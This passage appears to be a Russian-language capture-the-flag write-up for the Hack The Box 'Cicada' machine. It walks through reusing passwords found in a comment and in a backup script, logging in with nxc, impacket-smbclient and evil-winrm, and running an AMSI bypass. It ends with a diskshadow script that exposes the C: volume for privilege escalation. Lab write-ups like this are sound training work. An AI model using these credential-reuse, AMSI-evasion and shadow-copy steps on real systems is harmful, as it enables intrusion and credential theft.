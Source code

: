 В комментарии найден пароль учетной записи
```
david.orelious:aRt$Lp#7t*VQ!3
```

Проверка доступа к ресурсам от имени нового пользователя
```bash
nxc smb CICADA-DC.cicada.htb -u david.orelious -p 'aRt$Lp#7t*VQ!3' --shares
```
![[Pasted image 20241103201739.png]]

Подключение к SMB от имени david.orelious и загрузка Backup_script.ps1
```bash
impacket-smbclient 'cicada.htb/david.orelious:aRt$Lp#7t*VQ!3'@10.10.11.35
```
![[Pasted image 20241103202613.png]]

Backup_script.ps1
```powershell
$sourceDirectory = "C:\smb"
$destinationDirectory = "D:\Backup"

$username = "emily.oscars"
$password = ConvertTo-SecureString "Q!3@Lp#M6b*7t*Vt" -AsPlainText -Force
$credentials = New-Object System.Management.Automation.PSCredential($username, $password)
$dateStamp = Get-Date -Format "yyyyMMdd_HHmmss"
$backupFileName = "smb_backup_$dateStamp.zip"
$backupFilePath = Join-Path -Path $destinationDirectory -ChildPath $backupFileName
Compress-Archive -Path $sourceDirectory -DestinationPath $backupFilePath
Write-Host "Backup completed successfully. Backup file saved to: $backupFilePath"
```

Обнаружена УЗ emily.oscars
```
cicada.htb\emily.oscars:Q!3@Lp#M6b*7t*Vt
```

Проверка доступа emily.oscars 
```bash
nxc winrm CICADA-DC.cicada.htb -u emily.oscars -p 'Q!3@Lp#M6b*7t*Vt'
```
![[Pasted image 20241103203103.png]]

Подключение по winrm
```bash
evil-winrm -i 10.10.11.35 -u emily.oscars -p 'Q!3@Lp#M6b*7t*Vt'
Bypass-4MSI
```
![[Pasted image 20241103203348.png]]
Чтение первого флага


#### Повышение привилегий

Найден backup.script
![[Pasted image 20241103203541.png]]
```powershell
set verbose on
set metadata C:\Windows\Temp\meta.cab
set context clientaccessible
set context persistent
begin backup
add volume C: alias cdrive
create
expose %cdrive% E:
end backup
```

